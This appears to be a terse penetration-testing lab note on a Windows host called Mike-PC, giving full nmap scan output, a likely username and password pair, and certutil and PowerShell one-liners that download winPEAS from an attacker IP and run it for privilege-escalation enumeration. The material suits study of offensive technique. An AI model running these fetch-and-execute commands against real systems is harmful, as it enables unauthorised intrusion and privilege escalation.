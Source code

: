 Monster sudo nmap --open -sV -sC 192.168.218.180

Password:  
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-04-01 17:30 CEST  
Nmap scan report for 192.168.218.180  
Host is up (0.039s latency).  
Not shown: 994 closed tcp ports (reset)  
PORT STATE SERVICE VERSION  
80/tcp open http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)  
|_http-title: Mike Wazowski_  
_|http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10_  
_| http-methods:_  
_| Potentially risky methods: TRACE_  
_135/tcp open msrpc Microsoft Windows RPC_  
_139/tcp open netbios-ssn Microsoft Windows netbios-ssn_  
_443/tcp open ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)_  
_| http-methods:_  
_|_ Potentially risky methods: TRACE  
|_http-title: Mike Wazowski  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=localhost  
| Not valid before: 2009-11-10T23:48:47  
|_Not valid after: 2019-11-08T23:48:47_  
_| tls-alpn:_  
_|_ http/1.1  
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10_  
_445/tcp open microsoft-ds?_  
_3389/tcp open ms-wbt-server Microsoft Terminal Services_  
_| rdp-ntlm-info:_  
_| Target_Name: MIKE-PC_  
_| NetBIOS_Domain_Name: MIKE-PC_  
_| NetBIOS_Computer_Name: MIKE-PC_  
_| DNS_Domain_Name: Mike-PC_  
_| DNS_Computer_Name: Mike-PC_  
_| Product_Version: 10.0.19041_  
_|_ System_Time: 2025-04-01T15:31:09+00:00  
|_ssl-date: 2025-04-01T15:31:17+00:00; -3s from scanner time.  
| ssl-cert: Subject: commonName=Mike-PC  
| Not valid before: 2025-03-31T15:04:17  
|_Not valid after: 2025-09-30T15:04:17  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:  
| smb2-time:  
| date: 2025-04-01T15:31:12  
|_ start_date: N/A  
|_clock-skew: mean: -2s, deviation: 0s, median: -3s_  
_| smb2-security-mode:_  
_| 3:1:1:_  
_|_ Message signing enabled but not required

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 23.03 seconds

  

user:

mike

wazowski

  

in windows, download winpeas, run , then save the output

cmd:

certutil -urlcache -split -f "[http://192.168.45.245/peas/winPEAS.bat](http://192.168.45.245/peas/winPEAS.bat)" winPEAS.bat && winPEAS.bat > output.txt

pwsh:

  

powershell -c "Invoke-WebRequest -Uri '[http://192.168.45.245/peas/winPEAS.bat](http://192.168.45.245/peas/winPEAS.bat)' -OutFile 'winPEAS.bat'; cmd /c 'winPEAS.bat' > output.txt"